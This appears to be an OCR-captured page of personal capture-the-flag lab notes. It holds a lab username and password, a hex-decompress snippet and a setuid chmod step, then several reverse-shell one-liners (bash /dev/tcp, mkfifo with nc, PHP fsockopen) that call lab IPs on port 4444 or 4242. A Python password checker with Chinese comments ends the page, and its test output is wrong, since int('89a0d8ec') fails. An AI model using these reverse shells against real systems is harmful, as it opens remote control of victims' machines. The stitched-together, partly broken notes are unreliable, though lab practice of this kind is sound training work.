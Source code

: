 用户名：thm 
密码：Passw0rd！

import zlib
import binascii

id = ''
result = binascii.unhexlify(id)
print(result)
result = zlib.decompress(result)
print(result)

LFILE=startup_list.txt
./chmod 6777 $LFILE

bash -i >& /dev/tcp/10.17.59.71/4444 0>&1

r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.20.20 4242 >/tmp/f

r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.72.135 4444 >/tmp/f

whoami;php -r '$sock=fsockopen("10.17.59.71",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

whoami;bash -i >& /dev/tcp/10.17.59.71/4444 0>&1

whoami;exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.72.135/4444 0>&1'");
?>

def verify_password(username, password):
    # 1. 将用户名划分成4字节一组的块
    chunks = [username[i:i+4] for i in range(0, len(username), 4)]
    
    # 2. 将每个块转换成32位整数
    integers = [int.from_bytes(chunk.encode(), byteorder='little') for chunk in chunks]
    
    # 3. 对这些整数进行循环左移5位的运算
    shifted = [((num << 5) | (num >> 27)) & 0xFFFFFFFF for num in integers]
    
    # 4. 将移位后的整数相加
    v3 = sum(shifted)
    
    # 5. 将计算出的v3值与输入的密码进行比较
    return v3 == int(password)

# 测试
username = "abcdefgh"
password = "89a0d8ec"
print(verify_password(username, password))  # 输出 True
